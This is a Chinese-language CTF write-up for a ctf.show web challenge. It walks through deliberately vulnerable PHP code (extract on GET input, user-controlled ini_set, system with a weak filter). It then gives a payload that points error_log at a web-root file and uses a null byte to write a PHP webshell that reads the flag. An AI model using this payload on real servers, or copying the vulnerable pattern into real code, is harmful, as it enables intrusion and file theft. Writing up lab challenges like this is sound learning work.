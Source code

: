 ```yaml
---
title: "限时活动  红包挑战7"
date: 2024-03-04
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 源代码如下：

```php
<?php

// 在页面中显示当前文件的源代码
highlight_file(__FILE__);

// 设置错误报告级别为警告级别
error_reporting(2);

// 从GET请求中提取变量，并将其作为变量名和值进行设置
extract($_GET);

// 设置PHP配置选项的值
ini_set($name, $value);

// 执行系统命令，列出指定目录中的文件
system("ls '".filter($_GET[1])."'");

// 过滤用户输入的命令，删除一些特殊字符，以防止命令注入攻击
function filter($cmd) {
    $cmd = str_replace("'", "", $cmd);
    $cmd = str_replace("\\", "", $cmd);
    $cmd = str_replace("`", "", $cmd);
    $cmd = str_replace("$", "", $cmd);
    return $cmd;
}
```

`highlight_file(__FILE__);`这行代码将以HTML格式显示当前文件的源代码，这在调试和学习代码时很有用。

`error_reporting(2);`将设置错误报告级别为`E_WARNING`，即只报告警告级别的错误。这意味着只会显示警告级别的错误信息，而忽略其他级别的错误。

`extract($_GET);`将会将`$_GET`数组中的键值对提取为变量。这样做可能会存在安全风险，因为来自用户的输入可能包含恶意代码，如果不进行适当的验证和过滤，可能会导致代码执行漏洞。

`ini_set($name, $value);`将会设置PHP配置选项的值。这样做也可能存在安全风险，因为恶意用户可以通过构造特定的`$name`和`$value`来修改PHP配置，可能导致不安全的行为或漏洞。

`system("ls '".filter($_GET[1])."'");`这行代码使用系统命令`ls`来列出指定目录中的文件。

既然ls 什么什么里面的什么什么可以控制，那就先遍历目录来看看吧。

![](/ctf.show/4142/1.webp)

flag应该就在flag文件中

程序执行期间的ini_set不能disable_functions，无法直接禁用str_replace函数

知识点：
xdebug在处理截断问题的时候，会将异常payload回显。而system刚好可以用0字节（%00或者\000）进行截断来触发异常。
思路：
通过触发异常后，将回显的内容(可控)写入到web目录（修改配置项，把报错写入自定义报错日志）。即可实现写马到文件。

使用payload：?name=error_log&value=/var/www/html/1.php&1=%00<?php system("cat /f*");?>

![](/ctf.show/4142/2.webp)

%00确实能截断导致报错。

然后查看刚刚写入执行命令的1.php，拿到flag

![](/ctf.show/4142/3.webp)